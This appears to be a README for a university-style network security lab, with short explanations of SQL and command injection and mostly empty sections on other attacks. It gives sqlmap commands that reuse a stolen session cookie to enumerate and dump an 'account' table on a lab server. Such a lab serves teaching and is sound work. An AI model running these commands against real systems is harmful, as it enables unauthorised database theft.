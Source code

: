 # Network Security DSP

## Man In The Middle

## Cookie Stealing and Hijacking Session

## SQL injection

SQL (Structured Query Language) Injection, mostly referred to as SQLI, is an attack on a web application database server that causes malicious queries to be executed. When a web application communicates with a database using input form a user that hasn't been properly validated, there runs the potential of an attacker being able to steal, delete or alter private and customer data and also attack the web applications authentication methods to private or customer areas.
This is why as well as SQLI being one of the oldest web application vulnerabilities, it also can be most damaging.

In this scenario, it is possible to search among the products in the database using an html form. You can see that this is a GET request by looking at the URL:

* http://193.20.1.2:5000/search?nome=mela

From the URL above, you can see that the results comes from the "nome" parameter in the query string. The web application needs to retreive the article from the database and may use an SQL statement that looks something like the following:
* **[...] SELECT all FROM table WHERE nome=mela [...]**

You can assume that this query is to search for stored products of a table. Is there a way to explore the other tables?

### Union-Based SQL Injection

This type of injection utilises the **SQL UNION** operator alongside a **SELECT** statement to return additional results to the page. This method is the most common way of extracting large amounts of data via an SQL Injection vulnerability.

### SQLMap

It's an open source penetration testing tool that automates the process of detecting and exploiting SQL injection flaws and taking over database servers.

If you are using the attacking machine that was provided to you, sqlmap is already installed. Otherwise, you can download it here: https://github.com/sqlmapproject/sqlmap

To check if the "name" parameter is vulnerable it is necessary to set the session (previously stolen) to allow sqlmap to see the /search page, to do this you need to use the following command:

**sqlmap -u "http://193.20.1.2:5000/search?nome=mela" -p nome --cookie="session=STOLEN_SESSION"**
* **-u**: Target Url
* **-p**: Testable parameter(s)
* **--cookie**: HTTP cookie header value

After that we can proceed to inspect the databases:

**sqlmap -u "http://193.20.1.2:5000/search?nome=mela" -p nome --cookie="session=STOLEN_SESSION" --tables**
* **--tables**: Enumaret DBMS database tables

It turns out that there is a database called "networkSecurity" with a table called "account". The last step is to see the contents of this table:

**sqlmap -u "http://193.20.1.2:5000/search?nome=mela" -p nome --cookie="session=STOLEN_SESSION" -D networkSecurity -T account --dump**
* **-D**: DBMS database to enumerate
* **-T**: DBMS database table(s) to enumerate
* **--dump**: Dump DBMS database table entries

## Command Injection

** Command Injection** is an attacck in wich the goal is execution of arbitrary commands on the host operating system via a vulnerable application. These attacks are possible when an application passes unsafe user supplied data (forms, cookies, HTTP headers etc.) to a system shell. In this attack, the attacker-supplied operating system command are usually executed with the privileges of the vulnerable application. Command injection attacks are possible largely due to insufficient input validation.

## Privilege Escalation

## Cracking Password
